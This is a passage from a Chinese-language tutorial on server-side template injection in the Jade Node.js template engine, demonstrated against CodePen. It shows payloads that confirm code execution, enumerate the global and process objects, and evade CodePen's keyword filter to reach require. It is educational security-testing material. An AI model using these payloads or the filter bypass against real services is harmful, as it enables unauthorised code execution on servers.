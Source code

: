 ##### Jade

Jade 是一款 Node.js 模板引擎。[http://CodePen.io](https://link.zhihu.com/?target=http%3A//CodePen.io) 则可以接受用户递交该模板。这里，我会展示如何对模板注入进行黑盒测试。

首先，让我们来确认模板可以执行代码：

```jade
= 7*7
//结果：49
```

再来确认 self 对象的位置：

```jade
= root
//结果：[object global]
```

我们来列一下对象属性和函数：

```jade
- var x = root
- for(var prop in x)
, #{prop}

, ArrayBuffer, Int8Array, Uint8Array, Uint8ClampedArray... global, process, GLOBAL, root
```

这些可能是可利用的函数：

```jade
- var x = root.process
- for(var prop in x)
, #{prop}

, title, version, moduleLoadList... mainModule, setMaxListeners, emit, once
```

绕过保护机制：

```jade
- var x = root.process.mainModule
- for(var prop in x)
, #{prop}
 
因为安全原因，CodePen阻止了你的语句
请删除下列关键字后进行尝试
->process
->mainModule

- var x = root.process
- x = x.mainModule
- for(var prop in x)
, #{prop}
 
, id, exports, parent, filename, loaded, children, paths, load, require, _compile
```
